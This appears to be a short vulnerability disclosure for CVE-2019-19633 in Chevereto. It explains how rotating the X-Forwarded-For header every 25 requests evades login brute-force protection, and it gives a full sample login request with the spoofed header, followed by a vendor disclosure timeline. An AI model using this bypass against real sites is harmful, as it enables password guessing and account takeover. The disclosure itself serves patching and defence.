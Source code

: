 # CVE-2019-19633
lib/G/functions.php in Chevereto 1.0.0 through 1.1.4 Free, and through 3.13.5 Core, allows an attacker to perform bruteforce attacks without triggering the implemented protection mechanism by manipulating the X-Forwarded-For header in the request. The IP in the header has to be changed every 25th request (default 25) to avoid activating the protection and blocking the IP (not that it matters).

# First 25 requests
X-Forwarded-For: **8.8.8.1, 8.8.8.2**

# Second wave of 25 requests
X-Forwarded-For: **8.8.8.2, 8.8.8.3**

And so on...

```
POST /login HTTP/1.1
Host: 192.168.0.88
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://192.168.0.88
DNT: 1
Connection: close
Referer: http://192.168.0.88/login
X-Forwarded-For: 8.8.8.228, 8.8.8.88
Cookie: PHPSESSID=16dal7t7fmdbd86ahjkp8qo43a
Upgrade-Insecure-Requests: 1

login-subject=admin&password=test&auth_token=fb22558fc0f068d3cfb9ca98b413c8d0adbbc205
```

# Timeline (90 day default disclosure)
- 2019-12-07 - Reported finding to vendor
- 2019-12-07 - Vendor responded
- 2020-03-07 - Deadline
